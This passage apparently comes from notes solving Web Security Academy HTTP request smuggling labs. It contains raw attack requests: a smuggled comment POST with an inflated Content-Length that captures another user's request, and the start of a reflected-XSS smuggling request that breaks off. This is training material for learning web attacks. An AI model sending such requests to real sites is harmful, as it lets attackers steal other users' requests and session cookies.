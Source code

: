 Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

0

POST /post/comment HTTP/1.1
Host: 0a13000003491c06c03209bf00b300f2.web-security-academy.net
Cookie: session=1BahIc3mvaIbwizp3NRi3V1a1taYhsDd
Content-Length: 800
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a13000003491c06c03209bf00b300f2.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a13000003491c06c03209bf00b300f2.web-security-academy.net/post?postId=2
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

csrf=g8m1NmcSHiEC261Gl5FwzoxWZkwwhNaR&postId=2&name=asd&email=asd%40asd.cm&website=https%3A%2F%2Fasd.com&comment=asd







```

### Exploiting HTTP request smuggling to deliver reflected XSS

```
GET /post?postId=8 HTTP/1.1
Host: 0a08006c032db502c0df027c00590030.web-security-academy.net
Cookie: session=WWSaYlwePH4piCrMlfarZzBo64qRE6cW
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate